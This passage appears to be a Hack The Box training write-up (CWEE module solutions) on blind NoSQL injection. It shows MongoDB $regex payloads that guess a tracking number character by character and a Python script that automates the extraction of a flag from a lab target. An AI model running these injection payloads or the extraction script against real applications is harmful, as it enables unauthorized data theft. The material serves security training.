 ```javascript
{"trackingNum": {"$regex":"^32A7668.*"}}
```

![[HTB Solutions/CWEE/z. images/47efcb1a4b8c1bcb10fb37b026dde8d3_MD5.jpg]]

For the last digit, students will find that 2 does return the package information:

Code: javascript

```javascript
{"trackingNum": {"$regex":"^32A76682.*"}}
```

![[HTB Solutions/CWEE/z. images/3d9311530c78a3e6b05d8604ca1d02a3_MD5.jpg]]

Therefore, the last two digits needed to identify the tracking number are `82` (with the full tracking number being `32A76682`).

Answer: `82`

# Automating Blind Data Extraction

## Question 1

### "Follow along with this section, recreate the script locally and dump the tracking number."

To dump the tracking number, students need to utilize the same Python script provided in the module, however only adjusting it for the spawned target machine IP and port:

Code: python

```python
#!/usr/bin/env python3

import requests, json

def oracle(t):
    request = requests.post("http://STMIP:STMPO/index.php", 
    headers = {"Content-Type": "application/json"}, 
    data = json.dumps({"trackingNum": t}))
    return "bmdyy" in request.text

assert(oracle("DoesNotExist") == False)
assert(oracle({"$regex": "^HTB{.*"}) == True)

trackingNum = "HTB{"

for _ in range(32):
    for character in "0123456789abcdef":
        if oracle({"$regex": "^" + trackingNum + character}):
            trackingNum += character
            break

trackingNum += "}"

assert(oracle(trackingNum))
print(trackingNum)
```
